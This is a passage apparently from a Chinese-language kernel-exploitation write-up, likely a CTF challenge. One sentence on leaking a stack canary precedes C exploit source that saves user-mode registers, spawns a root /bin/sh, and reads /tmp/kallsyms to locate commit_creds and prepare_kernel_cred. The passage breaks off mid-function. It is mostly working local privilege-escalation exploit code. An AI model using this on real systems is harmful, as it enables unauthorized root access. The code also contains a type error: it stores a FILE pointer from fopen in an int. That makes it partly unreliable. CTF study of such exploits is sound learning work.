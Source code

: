还有一个有意思的地方在于我们明明是在write里泄露的canary，在copy函数里进行的栈溢出，但是canary和栈布局都是一样的，而且在gdb中看到的输入地址距离rbp相去甚远，实际上却恰如其分。

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

size_t user_cs,user_ss,user_rflags,user_sp;

size_t commit_creds=0,prepare_kernel_cred=0;

size_t vmlinux_base;

void save_status()
{
  __asm__(
    "mov user_cs,cs;"
    "mov user_ss,ss;"
    "mov user_sp,rsp;"
    "pushf;"
    "pop user_rflags;"
  );
  puts("[*] status has been saved.");

}

void GetRootShell()
{
    if(!getuid()){
        system("/bin/sh");
    }
    else{
        puts("[*] get root shell error!");
    }
}

size_t FindVmlinuxBase()
{
    int fd = fopen("/tmp/kallsyms","r");
    if(fd == -1){
        puts("[*]open symbol file failed.");
    }
    char buf[0x30] = {0};
    while(fgets(buf,0x30,fd)){
        if(commit_creds && prepare_kernel_cred)
            return 0;
        if(strstr(buf,"commit_creds") && !commit_creds){
            char hex[0x20] = {0};
            strncpy(hex,buf,0x10);
            sscanf(hex,"%llx",&commit_creds);
            vmlinux_base = commit_creds - 0x9c8e0;
            printf("[*]vmlinux base => %llx\n",vmlinux_base);
        }
        if(strstr(buf,"prepare_kernel_cred") && !prepare_kernel_cred){
            char hex[0x20] = {0};
            strncpy(hex,buf,0x10);
            sscanf(hex,"%llx",&prepare_kernel_cred);
            vmlinux_base = prepare_kernel_cred - 0x9cce0;
```